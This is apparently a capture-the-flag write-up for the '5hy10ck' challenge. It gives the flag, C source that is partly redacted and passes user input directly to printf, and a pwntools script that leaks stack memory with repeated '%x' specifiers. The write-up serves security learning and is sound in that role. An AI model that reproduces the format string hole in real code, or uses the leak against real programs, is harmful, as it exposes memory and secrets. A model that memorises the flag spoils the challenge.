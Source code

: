 **Flag:**
```
JUCTF{h4th_n0t_a_j3w_3y3s}
```

We are given an executable binary file *'5hy10ck.exe'* (Windows) and *'5hy10ck.out'* (Linux) along with a PDF *'5hy10ck_src.pdf'* containing redacted source code.

```C++

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char thyname[128];

char bassanio[64] = █████████████████████████████████;
char antonio[64] = █████████████████████████████████;

char* need_ducats(const char* who, const char* for_whom)
{
    int i;
    char* forfeit = (char *) malloc(64 * sizeof(char));
    
    for(i = 0; i < 64; i++)
    {
        forfeit[i] = █████████████████████████████████;
    }
    
    return forfeit;
}

int main()
{
    char pound_of_flesh[64];
    strcpy(pound_of_flesh, need_ducats(antonio, bassanio));
    
    printf("SHYLOCK GPT\n");
    printf("-----------\n\n");
    
    printf("Who art thou? \n");
    printf(">> ");
    scanf("%s", thyname);
    
    printf("\nBegone! Let no man disturb me whilst I sup, unless Antonio cometh with his pound of flesh!\n");
    printf("Thou hath no business with me, ");
    printf(thyname);
    printf("\n");
    
    return 0;
}

```

From the code, it is quite apparent that the intended solution was a classic [**Format String Exploit**](https://owasp.org/www-community/attacks/Format_string_attack). Below is the code for the same that uses [**pwn**](https://github.com/Gallopsled/pwntools#readme) to interact with the binary:

```python

from pwn import *

io = process('./5hy10ck.out')
context.log_level = 'DEBUG'

io.recvuntil(b'thou?')

io.sendline('%x' + '-%x' * 32)

io.recvuntil(b'me, ')
data = io.recvuntil(b'\n')[:-1]

data = data.decode()

S = ''
for byte in data.split('-'):
    byte = byte.rjust(8, '0')
    
    A = bytearray.fromhex(byte)
    
    for C in reversed(A):
        if(C >= 32 and C < 128):
            S += chr(C);            

print('\n\n', S)

```

![img](https://user-images.githubusercontent.com/96875426/227787951-02050457-951a-4ff3-b545-48fdabff4943.png)
